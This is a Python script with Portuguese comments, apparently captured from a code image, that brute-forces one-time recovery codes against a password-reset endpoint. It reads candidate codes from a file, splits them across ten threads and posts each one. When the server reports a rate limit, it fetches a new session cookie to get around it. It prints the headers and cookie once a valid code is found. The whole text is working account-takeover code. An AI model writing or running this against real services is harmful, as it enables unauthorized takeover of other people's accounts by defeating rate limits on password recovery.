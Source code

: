 ```python
        'Priority': 'u=0, i'
    }
    data_segundo = {'recovery_code': recovery_code, 's': '180'}
    response = requests.post(url_reset_password, headers=headers_segundo, data=data_segundo)

    # Verifica a resposta da página
    if "Invalid or expired recovery code!" in response.text:
        print(f'Código OTP utilizado: {recovery_code} - Status: {response.status_code} - Código Inválido')
    elif "Rate limit exceeded. Please try again later." in response.text:
        print(f'Rate limit exceeded com código: {recovery_code} - Status: {response.status_code}')
        return 'rate_limit'
    else:
        print(f'Código OTP utilizado: {recovery_code} - Status: {response.status_code} - Código Válido')
        print(f'Cabeçalho recebido: {response.headers}')
        print(f'Cookie: {cookie}')
        codigo_valido_encontrado.set()
        return True

    return False

# Função principal
def main():
    # Arquivo com os códigos de recuperação
    arquivo_codigos = 'otp.txt'

    # Lê os códigos do arquivo
    with open(arquivo_codigos, 'r') as file:
        codigos = [linha.strip() for linha in file.readlines()]

    # Divide a lista de OTPs em 10 partes
    num_threads = 10
    chunk_size = len(codigos) // num_threads
    chunks = [codigos[i:i + chunk_size] for i in range(0, len(codigos), chunk_size)]

    def processar_codigo(chunk):
        cookie = enviar_primeiro_cabecalho()
        for codigo in chunk:
            if codigo_valido_encontrado.is_set():
                break
            resultado = enviar_segundo_cabecalho(cookie, codigo)
            if resultado == 'rate_limit':
                cookie = enviar_primeiro_cabecalho()
                resultado = enviar_segundo_cabecalho(cookie, codigo)
            if resultado is True:
                break

    with ThreadPoolExecutor(max_workers=num_threads) as executor:
        futures = [executor.submit(processar_codigo, chunk) for chunk in chunks]

        for future in futures:
            future.result()
            if codigo_valido_encontrado.is_set():
                break

if __name__ == '__main__':
    main()
```
